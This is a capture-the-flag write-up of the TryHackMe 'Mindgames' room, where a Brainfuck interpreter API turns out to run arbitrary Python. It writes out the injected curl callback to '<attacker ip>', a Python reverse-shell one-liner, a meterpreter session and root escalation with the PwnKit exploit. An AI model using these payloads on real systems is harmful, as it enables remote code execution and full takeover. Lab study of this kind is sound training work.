





[Mindgames](https://tryhackme.com/room/mindgames) is a machine that is rather modest with its description. Only worthy information I got is to "keep enumerating" so I'm just gonna assume it's an enumeration heavy machine.

Let's start with nmap.
 Since this is an enumeration heavy machine (speculative), I'm gonna run nmap more than once. Just to be safe.
```
$ nmap -A -T4 -vv mindgames.thm
$ nmap -sV -sC -T4 -p- -vv mindgames.thm
$ nmap -sU -vv mindgames.thm
```

Which yielded the following:
```
Nmap scan report for mindgames.thm (10.10.181.52)
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Mindgames.
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
```

Hopping over to the site we are introduced to the following page:


Aside from the apology, the website is a simple interpreter for the Brainf*** programming language (going to abbreviate to BF for the rest of this writeup.)

Doing some more digging, I found that the interpreter is actually an API that gets called everytime code is submitted.

Contents of `mindgames.thm/main.js`:
```

async function postData(url = "", data = "") {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'text/plain'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: data // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
function onLoad() {
    document.querySelector("#codeForm").addEventListener("submit", function (event) {
        event.preventDefault()
        runCode()
    });
}
async function runCode() {
    const programBox = document.querySelector("#code")
    const outBox = document.querySelector("#outputBox")
    outBox.textContent = await (await postData("/api/bf", programBox.value)).text()
}
async function postData(url = "", data = "") {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'text/plain'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: data // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
function onLoad() {
    document.querySelector("#codeForm").addEventListener("submit", function (event) {
        event.preventDefault()
        runCode()
    });
}
async function runCode() {
    const programBox = document.querySelector("#code")
    const outBox = document.querySelector("#outputBox")
    outBox.textContent = await (await postData("/api/bf", programBox.value)).text()
}
```

Enumerating for further subdirectories lead nowhere and enumerating for additional API's lead nowhere either. So we'll focus on what we have for now.

Since we can provide whatever code we want into the textbox, I wanted to see if I could execute my own. However, I have no knowledge when it comes to BF. So I decided to see if there was 
a transpiler (software which converts code from one language to another) that could help me write something.

However, in the middle of searching for a transpiler, I found out that BF can be used to encode a piece of text. And then it hit me.

what if maybe, just maybe, the code we were provided may just be encoded from another language? So I copied the code and put it in a BF interpreter. ([this one to be exact](https://www.dcode.fr/brainfuck-language))

Putting in the "Hello, world" code, I get `print("Hello, World")`.\
Putting in the Fibonacci code, I get:
```
def F(n):
    if n <= 1:
        return 1
    return F(n-1)+F(n-2)


for i in range(10):
    print(F(i))
```
Well there you have it.

Since this is just encoded python, We should be able to connect to other machines. So I decided to encode the following snippet:
```
import os;os.system('curl <attacker ip>:8000)')
```
and host a python HTTP server on my end.

Lo and behold:


Can I push it and revshell into this machine?

Decided to encode the following from [revshells](www.revshells.com):
```
import os,pty,socket;s=socket.socket();s.connect(("<attacker ip>",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```

Executing it:

At this point, I started to become suspicious. This all felt way too easy. Nevertheless, we got a foothold and thats better than nothing.
Knowing how fragile a python revshell like this would be, I decided to upgrade to a meterpreter shell.



And with that, We are now able to get the user flag.
```
meterpreter > ls
Listing: /home/mindgames
========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
020666/rw-rw-rw-  0     cha   2025-09-13 03:38:36 -0400  .bash_history
100644/rw-r--r--  220   fil   2020-05-11 09:48:43 -0400  .bash_logout
100644/rw-r--r--  3771  fil   2020-05-11 09:48:43 -0400  .bashrc
040700/rwx------  4096  dir   2020-05-11 10:07:05 -0400  .cache
040700/rwx------  4096  dir   2020-05-11 10:07:05 -0400  .gnupg
040775/rwxrwxr-x  4096  dir   2020-05-11 11:24:05 -0400  .local
100644/rw-r--r--  807   fil   2020-05-11 09:48:43 -0400  .profile
100664/rw-rw-r--  38    fil   2020-05-11 11:24:07 -0400  user.txt
040775/rwxrwxr-x  4096  dir   2025-09-13 04:30:35 -0400  webserver

meterpreter > cat user.txt
<redacted>
meterpreter > 
```

Now for the root flag.

To start off, let's just send a linPEAS script to automate a few things and see where things go from there.
Thankfully, I didn't have to look too far to find some useful info.



Looking up "pkexec 0.105" lead me to [CVE-2021-4034.](https://nvd.nist.gov/vuln/detail/cve-2021-4034) An exploit named [PwnKit](https://github.com/ly4k/PwnKit) makes use of this vulnerability.

So after downloading it on my machine and uploading it to the vulnerable machine:

```
meterpreter > upload PwnKit
[*] Uploading  : /root/PwnKit -> PwnKit
[*] Uploaded -1.00 B of 17.62 KiB (-0.01%): /root/PwnKit -> PwnKit
[*] Completed  : /root/PwnKit -> PwnKit
meterpreter > shell
Process 6336 created.
Channel 13 created.
chmod +x PwnKit
./PwnKit
mesg: ttyname failed: Inappropriate ioctl for device
whoami
root
cd ~   
ls
root.txt
cat root.txt
<redacted>
```

I really liked the idea behind this machine. No matter how dirty it was to use a language as a decoder for another language. I do wish the escalation part was harder, but I do feel like the user flag will throw enough people off to mitigate that.